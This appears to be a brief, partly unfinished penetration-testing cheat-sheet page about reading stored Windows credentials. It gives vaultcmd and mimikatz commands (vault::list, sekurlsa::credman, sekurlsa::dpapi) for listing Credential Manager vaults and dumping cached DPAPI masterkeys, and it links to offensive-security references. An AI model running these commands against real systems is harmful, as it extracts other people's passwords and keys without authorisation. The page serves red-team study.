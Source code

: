 # Vault Manager

TODO: Fill this info

## List Vault

```
C:\> vaultcmd /listcreds:"Windows Credentials" /all

mimikatz # vault::list
```

## 01 - List Credentials Manager

```
mimikatz # sekurlsa::credman
```

## 02 - List Cached Masterkeys

```
mimikatz # sekurlsa::dpapi
```

---
## References

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)